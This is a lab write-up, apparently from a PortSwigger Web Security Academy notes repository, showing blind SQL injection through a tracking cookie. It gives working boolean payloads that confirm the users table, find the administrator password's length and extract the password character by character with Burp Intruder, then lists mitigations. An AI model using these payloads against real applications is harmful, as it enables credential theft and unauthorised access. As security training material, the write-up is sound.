 # Blind SQL Injection with Conditional Responses

## Goal:
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

---

## Process

### 1. Intercepted the GET Request and Sent to Repeater (using Burp Suite)
```http
GET /filter?category=Pets HTTP/2
```

### 2. Modified Tracking ID to Test Boolean Conditions

**Injected Payload:**
```sql
' AND '1'='1
```

**The Tracking ID becomes:**
```http
Cookie: TrackingId=<ID>'+AND+'1'='1;
```
This returned a "Welcome back" message.

**Injected Payload:**
```sql
' AND '1'='2
```

**The Tracking ID becomes:**
```
Cookie: TrackingId=<ID>'+AND+'1'='2;
```
This did not return a "Welcome back" message. This confirms that the response can be controlled by injecting boolean conditions.

### 3. Verified the Existence of the `users` Table

```sql
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

This returned a "Welcome back" message, confirming that a table named `users` exists.

`LIMIT 1` ensures that the subquery returns exactly one row.

Without LIMIT, `' AND (SELECT 'a' FROM users)='a` the subquery may return multiple rows, which causes an error (will not return the "Welcome back" message). SQL doesn't allow a **scalar subquery** (one used in a comparison like = 'a') to return multiple rows.

### 4. Verified the `administrator` Username

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

This returned a "Welcome back" message, confirming there is a user named `administrator`.

### 5. Determined the Password Length and Sent to Intruder

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

Tried increasing values to identify the password length until the query returned a "Welcome back" message:

```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a
```

This confirmed that the password length is 20.

### 6. Retrieved the Password Using Intruder (Sniper Attack)

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Explanation:

- `SUBSTRING(string_expression, start_position, length)` is a SQL function used to extract part of a string.
- `password` is the string to extract from.
- Start at position `1` (SQL uses 1-based indexing).
- Extract `1` character.
So this returns the first character of the password field.

In Burp Intruder, select `a` and click the **Add §** button:

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
```

Payload tab configuration:
Payload type: simple list
Payload set: a-z and 0-9 (assuming no uppercase letters)

In the Grep-Match tab (from Settings), search for the value `Welcome back`.

Start the Sniper attack.

This returned a "Welcome back" message only for character `m`, indicating that `m` is the first character of the password.

![burpsuite response](./misc-images/09-1.png)

Repeated the process for the second character:
```sql
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
```

This returned a "Welcome back" message only for character `i`, indicating that `i` is the second character.

Repeated the process for all 20 characters and successfully retrieved the complete password.

Logged in as the administrator using the retrieved password.

---

## Mitigation

- Use parameterised queries (prepped statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#how-to-fix-this-vulnerability)

- Restrict database permissions: The application should connect using a low-privilege database account with access only to the necessary tables and operations. It should not have access to sensitive operations like `SELECT * FROM users`, `DROP`, `UPDATE`, `CREATE`, etc., unless absolutely required.

---

## Reflection

Learned how blind SQL injection can be used to extract data character-by-character using conditional responses and boolean logic.

---

## Notes


